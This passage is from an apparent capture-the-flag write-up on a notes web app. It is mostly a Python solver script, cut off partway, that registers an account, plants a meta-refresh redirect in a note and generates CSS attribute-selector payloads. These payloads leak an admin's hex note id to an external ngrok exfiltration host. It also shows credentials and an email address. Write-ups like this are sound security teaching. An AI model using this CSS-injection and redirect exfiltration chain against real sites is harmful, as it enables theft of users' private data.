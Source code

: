 There many way to make the admin viewing /dashboard we can use redirection, iframe, report bot using ../../dashboard, but this one very slow since the rate limit is 3 time per hour its very slow to leak length 16 hex, so redirection and iframe is the choice, 
Im choose to use redirection using meta tag refresh
```html
<meta http-equiv="refresh" content="0;url=https://example.com">
```

### CHAINING THE EXPLOIT 
Register as user -> create css injection + redirection -> submit into admin -> Profit

### SOLVER

```py
from flask import Flask, Response, make_response, request
import requests
import threading
current_note = ""
known_prefix = "/notes/view/"
app = Flask(__name__)
import string
import requests
HOST = "http://54.254.152.24:5001/"
# HOST = "http://localhost:5001/"
EXFIL_URL = "http://0.tcp.ap.ngrok.io:14155/"
req = requests.Session()
username = "bengsky"
password = "123123@A"
email = "bengskysec@gmail.com"
req.post(HOST+"/auth/register", data={
   "username":username,
   "password":password,
   "email":email,
   "confirm_password":password
})
req.post(HOST+"/auth/login", data={
   "username":username,
   "password":password,
   "email":email,
   "confirm_password":password
})
##Create redirection
redirect = req.post(HOST+"/notes/create", data={
   "title":"1",
   "content":f"<meta http-equiv=\"refresh\" content=\"0;url={EXFIL_URL}\">"
}, allow_redirects=False).headers.get('Location').split("/")[-1]
print("Redirect id", redirect)
charset = "01234567890abcdef"
def generate_css_payload(prefix):
   css = ""
   for c1 in charset:
       for c2 in charset:
           attempt = prefix + c1 + c2
           selector = f'a[href^="{attempt}"]'
           url = f'{EXFIL_URL}leak?id={attempt}'
           css += f'{selector} {{ background: url("{url}"); }}\n'
   return css
def create_note():
   global req
   global known_prefix
   global HOST
   payload = generate_css_payload(known_prefix)
   url = HOST+"/notes/create"
   data = {
```